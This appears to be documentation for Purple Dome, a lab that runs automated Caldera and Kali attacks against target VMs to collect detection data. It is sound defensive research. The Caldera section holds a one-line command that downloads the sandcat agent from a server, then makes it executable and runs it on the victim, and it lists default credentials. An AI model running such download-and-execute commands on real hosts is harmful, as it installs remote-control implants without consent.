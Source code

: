 ======
Basics
======

Purple Dome is a simulated and automated environment to play with several operating system attacking each other.

This tool generates an attacker VM and target VMs. Automated attacks are then run against the targets and they will log system events. Those logs will then be stored away for analysis.

Attacks are started from the attacker VM which is normally a Kali linux machine (with all the Kali tools) running a Caldera server for additional tooling.

-------------------

Features
========

* Linux and Windows targets
* VM controller abstracted as plugins
    * Local vagrant based (debug and development)
    * Cloud based
* Caldera attacks
* Kali attack tools as plugins
* Data collection: Attack log and sensor data
* Vulnerability plugins: Modify the targets before the attack

Components
==========

You will interact with the command line tools. Those are described in the *CLI* chapter.

If you want to modify Purple Dome and contribute to it I can point you to the *Extending* chapter

On of the first things you will want to do is configuring the whole thing. Basically you have to touch two things: The configuration file must be modified (in YAML format). And you will also want to create some target VMs.

Vagrant makes it simple to create Linux targets. Windows targets (with some start configuration) are harder and have an own chapter.





TODO: What sensors are pre-installed ?
TODO: How to attack it ?
TODO: How to contact the servers (ssh/...) ? Scriptable
TODO: How to run it without sudo ?
TODO: Which data is collected ? How to access it ? How to get data dumps out ?
TODO: Add Linux Server
TODO: Add Mac Server



Data aggregator
---------------

We currently can use IDP and logstash

There are several options for data aggregators:

* Fleet OSQuery aggregator: https://github.com/kolide/fleet
* The Hive


Sensors on Targets (most are Windows)
-------------------------------------

Those sensors are not integrated but could be nice to play with:

Palantir Windows Event forwarding: https://github.com/palantir/windows-event-forwarding

Autorun monitoring: https://github.com/palantir/windows-event-forwarding/tree/master/AutorunsToWinEventLog

Palantir OSquery: https://github.com/palantir/osquery-configuration

SwiftOnSecurity Sysmon config: https://github.com/SwiftOnSecurity/sysmon-config


Palantir OSQuery is mixed OS: Windows/Mac Endpoints, Linux Servers


Caldera
-------

Attack framework.

Starting: *python3 server.py --insecure*

Web UI on *http://localhost:8888/*

Credentials: *red/admin*

Documentation: Documentation: https://caldera.readthedocs.io/en/latest/

Installing client on victim (Linux):

server="http://192.168.178.45:8888";curl -s -X POST -H "file:sandcat.go" -H "platform:linux" $server/file/download > sandcat.go;chmod +x sandcat.go;./sandcat.go -server $server -group red -v

Filebeat
--------

Filebeat has a set of modules:

https://www.elastic.co/guide/en/beats/filebeat/6.8/filebeat-modules-overview.html

List modules: *filebeat modules list*

%% TODO: Add OSQueryD https://osquery.readthedocs.io/en/latest/introduction/using-osqueryd/

Logstash
--------

Logstash uses all .conf files in /etc/logstash/conf.d

https://www.elastic.co/guide/en/logstash/current/config-setting-files.html

Alternative: The Hive
---------------------

Sander Spierenburg (SOC Teamlead) seems to be interested in The Hive. So it is back in the game



Repos
-----

* The main part: https://git.int.avast.com/ai-research/purpledome
* Caldera fork to fix bugs: TBD
* Caldera Plugin for statistics: <add public git/avast folder>


Links
-----

* Others detecting this kind of things

    - https://redcanary.com/blog/how-one-hospital-thwarted-a-ryuk-ransomware-outbreak/

